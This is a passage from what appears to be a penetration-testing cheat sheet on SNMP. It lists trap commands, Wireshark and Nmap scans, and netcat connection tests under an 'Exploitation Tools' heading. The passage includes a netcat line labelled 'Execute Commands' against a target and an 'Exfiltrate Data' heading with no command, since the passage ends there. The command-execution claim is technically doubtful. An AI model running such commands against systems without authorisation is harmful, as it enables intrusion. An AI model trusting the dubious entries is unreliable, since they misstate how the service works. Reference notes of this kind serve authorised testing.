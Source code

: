     ```bash
    snmptrap -v 2c -c public <nms_ip> "" <oid1> s "Value1" <oid2> i 123
    ```

#### \[\[SNMPTrapd]]

*   **SNMP Trap Receiver:** Runs a daemon to listen for SNMP traps in real-time.

    ```bash
    snmptrapd -f -Lo
    ```
*   **Filtering Traps Based on OIDs:** Filters incoming traps to only display those that match a specific OID.

    ```bash
    snmptrapd -On -f | grep <oid>
    ```

### Exploitation Tools

#### \[\[Metasploit]]

#### \[\[Wireshark]]

*   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "tcp port 161"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 161
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 161
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 161 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 161
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

